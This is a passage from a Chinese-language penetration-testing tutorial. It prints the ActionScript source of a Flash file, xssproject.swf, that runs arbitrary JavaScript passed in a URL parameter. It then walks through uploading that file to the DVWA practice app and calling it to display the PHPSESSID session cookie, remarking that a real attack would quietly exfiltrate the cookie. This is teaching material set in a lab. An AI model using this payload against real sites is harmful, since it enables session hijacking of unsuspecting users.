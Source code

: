 我们以前使用过的 SecLists 仓库包含一个名为 `xssproject.swf` 的 Flash 文件，它将允许我们对用户执行 XSS 攻击。Flash 代码能够像任何其他使用 Flash 插件的站点一样执行 JavaScript 代码，使用 `ExternalInterface` API。

用于生成 `xssproject.swf` 的 **ActionScript** (**AS**) 代码相当简单。ActionScript 是 Adobe Flash 的编程语言，用于自动化 Flash 应用程序。它的语法与 Java 非常相似，就像 Java 一样，它会被编译成字节码并由宿主应用程序（即 Flash 插件）执行：

```
package
{
  import flash.display.Sprite;
  import flash.external.*;
  import flash.system.System;
  public class XSSProject extends Sprite
  {
    public function XSSProject()
    {
      flash.system.Security.allowDomain("*");
      ExternalInterface.marshallExceptions = true;
      try {
        **ExternalInterface.call**("0);}catch(e){};"+**root.loaderInfo.parameters.js**+"//");
      } catch(e:Error) {
        trace(e);
      }
    }
  }
}
```

我们不必是 Flash 开发者就能理解这里发生了什么。这个 AS 代码简单地将主代码包装在 `try`-`catch` 块中，以便更清晰地执行，使用 `root.loaderInfo.parameters` 对象从 `GET` 请求中获取 `js` 参数，并将内容传递给 Flash 插件（通过 `ExternalInterface`）以便在浏览器内执行。

让我们继续使用应用程序的文件上传功能上传 XSSProject SWF 恶意文件。您可能需要将 DVWA 难度设置为`low`，以允许非图像文件上传。以下图显示了 XSSProject 恶意软件在熟悉目录中成功上传的情况：

![更多文件上传问题](img/B09238_05_11.jpg)

图 5.11：XSSProject 恶意软件成功上传

要使 Flash 文件在浏览器中执行 JavaScript 代码，我们可以直接调用它，并通过 `js` 参数传入任意代码，就像这样：

```
http://dvwa.app.internal/hackable/uploads/xssproject.swf?**js=[javascript code]**

```

作为**概念验证**（**POC**），我们可以显示 PHP 会话 cookie，但在实际攻击中，我们希望悄悄地外泄这些数据，并显示一个良性的错误消息或将受害者发送回主页。对于 POC，我们可以调用 `alert()` JavaScript 函数，并显示在特定页面上设置的 cookies 的值。在这种情况下，DVWA 的登录 cookie，`PHPSESSID`，应该在弹出窗口中显示。
